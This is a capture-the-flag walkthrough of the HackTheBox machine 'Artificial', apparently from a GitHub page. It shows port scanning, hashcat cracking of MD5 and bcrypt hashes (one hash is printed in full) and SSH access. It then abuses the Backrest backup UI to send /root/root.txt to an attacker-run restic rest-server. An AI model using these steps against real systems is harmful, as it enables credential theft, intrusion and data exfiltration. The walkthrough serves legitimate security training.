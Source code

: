 # Artificial Walkthrough

Author: Mrn0b0dy  
Date: 6/29/2025

## Scanning...

```bash
nmap -sV -O 10.10.11.74

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-29 06:14 +06
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.32s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3030/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)

```
#### We found ports 22, 80, and 3030 open. Let's check them.
#### Port 3030 is what we are heading for. It contains a DB file with a few usernames and passwords.
#### We have to hash them.

## User Access
```
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --outfile cracked2.txt
```
##### Explanation: Only put hashes in hashes.txt. Since it is in MD5 format, use -m 0 and directly crack it, so we used -a 0 with the rockyou.txt wordlist built into most Kali Linux boxes, then output it to cracked2.txt.

### Looking through them, we find that only 2 are useful and 1 is accessible, which is gael.

```
ssh gael@artificial.htb            
gael@artificial.htb's password: 
```
```
gael@artificial:~$ ls
user.txt
```
Congrats, you successfully found the user hash.

## Root Access
#### It can be done in two ways, but do it this way as you will learn a lot more...
#### Let's snoop around as gael.
#### Seems interesting.

```
gael@artificial:/var/backups$ ls
apt.extended_states.0     apt.extended_states.2.gz  apt.extended_states.4.gz  apt.extended_states.6.gz
apt.extended_states.1.gz  apt.extended_states.3.gz  apt.extended_states.5.gz  backrest_backup.tar.gz
```
#### We found backrest_backup.tar.gz, which might give us backrest access to the server.
##### Explanation: Backrest is backup software which can be controlled remotely too, and what we will do is back up the root flag to our Kali machine.
#### Download it...
```
┌──(root㉿mrnobody)-[/home/mrn0b0dy]
└─# scp gael@10.10.11.74:/var/backups/backrest_backup.tar.gz . 
```
#### There is a hash in there waiting to be cracked. This password will give us access to backrest with admin privileges.
```
hashcat -m 3200 -a 0 '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO' /usr/share/wordlists/rockyou.txt
```
##### Explanation: This hash is in bcrypt so I used -m 3200.
#### Almost there. Now we have to open a listening port to receive the backup file which we will send from the backrest Web UI.
```
┌──(root㉿mrnobody)-[/home/mrn0b0dy/Desktop/rest-server_0.14.0_linux_amd64/rest-server_0.14.0_linux_amd64]
└─# ./rest-server --path /tmp/restic-data --listen :12345 --no-auth 
Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345
```
##### Explanation: Using the rest server from GitHub, we are listening on port 12345 for any incoming files. --path stores the file in that directory. --no-auth is optional but makes things easier.
#### Now let's set up a backrest UI to control it remotely.
```
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```
##### Explanation: ssh 'gael@10.10.11.74' logs us into the account. -L sets up local port forwarding, so 9898:127.0.0.1:9898 tells it to send all the traffic coming to port 9898 to 127.0.0.1, which we can now access through our Kali, VM, or attack box.
#### Now go to 127.0.0.1:9898 and log in with backrest_root and the password we cracked.
#### Now add a repo in the web UI.

![Backrest Repo](Backres.repo.png)

#### No need to change anything else. Now go into the repo and run the command:
```
-r rest:http://insertip:12345/myrepo init
```
#### This will initiate a repository in the artificial box.
```
-r rest:http://insertip:12345/myrepo backup /root/root.txt
```
#### Run this to back up root.txt to your Kali Linux or your VM box.
#### If everything went alright, you have the root flag in your box!
#### Let's find it.
```
 restic -r /tmp/restic-data/myrepo snapshots
```
 #### Run this in your Kali/VM box.

```
└─# restic -r /tmp/restic-data/myrepo snapshots
enter password for repository: 

repository 9c2b17f4 opened (version 2, compression level auto)
created new cache in /root/.cache/restic
ID        Time                 Host        Tags        Paths           Size
---------------------------------------------------------------------------
365ab9e9  2025-06-29 08:22:09  artificial              /root/root.txt  33 B
---------------------------------------------------------------------------
1 snapshots
```
#### Copy the ID.
```
 restic -r /tmp/restic-data/myrepo restore 365ab9e9 --target ./restore 
enter password for repository: 
repository 9c2b17f4 opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
restoring snapshot 365ab9e9 of [/root/root.txt] at 2025-06-29 02:22:09.444236058 +0000 UTC by root@artificial to ./restore
Summary: Restored 2 files/dirs (33 B) in 0:00
```
```
cat /restore/root/root.txt   
```
Congrats!!!
You have successfully pwned Artificial.
## Please remember to follow my GitHub and my socials, Thanks!!!👌

